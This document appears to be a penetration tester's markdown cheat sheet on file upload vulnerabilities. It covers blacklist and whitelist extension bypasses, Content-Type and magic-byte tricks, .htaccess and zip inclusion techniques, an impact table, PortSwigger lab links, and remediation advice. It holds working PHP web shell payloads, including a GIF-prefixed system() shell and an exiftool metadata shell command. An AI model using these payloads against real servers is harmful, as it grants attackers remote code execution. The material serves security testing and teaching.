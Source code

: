 # File uploads

File upload functions can be used as a powerful vector for a number of high-severity attacks. 

## Steps

* Browse the site and find each upload functionality.
* Start with basic test by simply uploading a web shell using Weevely.
* If that fails, try the bypasses. If a bypass is successful, exploit further, or try another.
* Upload small POC report.

## Blacklisting bypass

Find the upload request, send it to Repeater and test which extension for the file is blacklisted by changing the `filename=` parameter:

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: application/x-php
```

|          Extension          | Try                                      |
|:---------------------------:|:-----------------------------------------|
|             PHP             | .phtm, phtml, .phps, .pht, .php2, .php3, |
|                             | .php4, .php5, .shtml, .phar, .pgif, .inc |
|             ASP             | asp, .aspx, .cer, .asa                   |
|             Jsp             | .jsp, .jspx, .jsw, .jsv, .jspf           |
|         Coldfusion          | .cfm, .cfml, .cfc, .dbm                  |
| Using random capitalization | .pHp, .pHP5, .PhAr                       |

Find more in PayloadAllThings. If successful, exploit further, or try another type of validation or bypass.

## Whitelisting bypass

Try these extensions on the `filename=` parameter:

    file.jpg.php
    file.php.jpg
    file.php.blah123jpg
    file.php%00.jpg
    file.php\x00.jpg 
    file.php%00
    file.php%20
    file.php%0d%0a.jpg
    file.php.....
    file.php/
    file.php.\
    file.php#.png
    file.
    .html

## Content-type validation

Change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.

## Content-Length validation

For `Content-Type: application/x-php`, try a small file payload:

    <?=`$_GET[x]`?>   
    <?=‘ls’;   Note : <? work for “short_open_tag=On” in php.ini ( Default=On )

If that works, try a better shell ...

## Magic bytes

Change `Content-Type: application/x-php` to `Content-Type: image/gif` and add the 
	 text `GIF89a;` before the shell-code.

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>
```

See [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures).

## Magic bytes and metadata shell

Bypass `Content-Type` checks by setting the value of the `Content-Type` header to `image/png`, `text/plain`, `application/octet-stream`, and create a shell using the metadata using tool exiftool:

    exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

Try uploading the modified `img.jpg`.

## Uploading configuration files

Try, for example, uploading a `.htaccess` file [htshells](https://github.com/wireghoul/htshells) or a `.config` file. Code can be appended at the end of the file.

For example, uploading a `.htaccess` file with 

    AddType application/x-httpd-php .png 

Instructs the Apache HTTP Server to execute PNG images as though they were PHP scripts. After that, upload a php webshell file with extension `.png`.

## Zip Slip

If a site accepts `.zip` files, upload `.php` by compressing it into `.zip` and uploading it. Then visit `target.com/path?page=zip://path/file.zip%23rce.php`.

## Escalation

The impact of file upload vulnerabilities generally depends on two key factors:

* Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
* What restrictions are imposed on the file once it has been successfully uploaded.

What can you achieve by exploiting file-upload: Remote code execution, SSRF, XSS, LFI, XXE, phishing, parameter pollution, disclosure of internal paths, SQL injection, DoS attack, etcetera:

|        Extension(s)        |               Impact               |
|:--------------------------:|:----------------------------------:|
| ASP, ASPX, PHP5, PHP, PHP3 |           Webshell, RCE            |
|            SVG             |       Stored XSS, SSRF, XXE        |
|            GIF             |          Stored XSS, SSRF          |
|            CSV             |           CSV injection            |
|            XML             |                XXE                 |
|            AVI             |             LFI, SSRF              |
|          HTML, JS          | HTML injection, XSS, Open redirect |
|         PNG, JPEG          |      Pixel flood attack (DoS)      |
|            ZIP             |          RCE via LFI, DoS          |
|         PDF, PPTX          |          SSRF, BLIND XXE           |
|            SCF             |                RCE                 |

In the worst case scenario, the file's type isn't validated properly, and the server configuration allows certain types of file (such as `.php` and `.jsp`) to be executed as code. In this case, an attacker could potentially upload a server-side code file that functions as a webshell, effectively granting them full control over the server.

## Portswigger labs

* [Remote code execution via web shell upload](../upload/1.md)
* [Web shell upload via Content-Type restriction bypass](../upload/2.md)
* [Web shell upload via path traversal](../upload/3.md)
* [Web shell upload via extension blacklist bypass](../upload/4.md)
* [Web shell upload via obfuscated file extension](../upload/5.md)
* [Remote code execution via polyglot web shell upload](../upload/6.md)
* [Web shell upload via race condition](../upload/7.md)
* [Race conditions](../techniques/race.md)

## Remediation

* Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload.
* Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).
* Rename uploaded files to avoid collisions that may cause existing files to be overwritten.
* Do not upload files to the server's permanent filesystem until they have been fully validated.
* If uploaded files are downloadable by users, supply an accurate non-generic `Content-Type` header, the `X-Content-Type-Options: nosniff` header, and also a `Content-Disposition` header that specifies that browsers should handle the file as an attachment.
* Enforce a size limit on uploaded files (for defense-in-depth, this can be implemented both within application code and in the web server’s configuration).
* Reject attempts to upload archive formats such as ZIP.
* As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.

## Resources

* [Portswigger: File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
* [OWASP:Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)
* [OWASP: File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
* [Weevely](https://www.blackhatethicalhacking.com/tools/weevely/)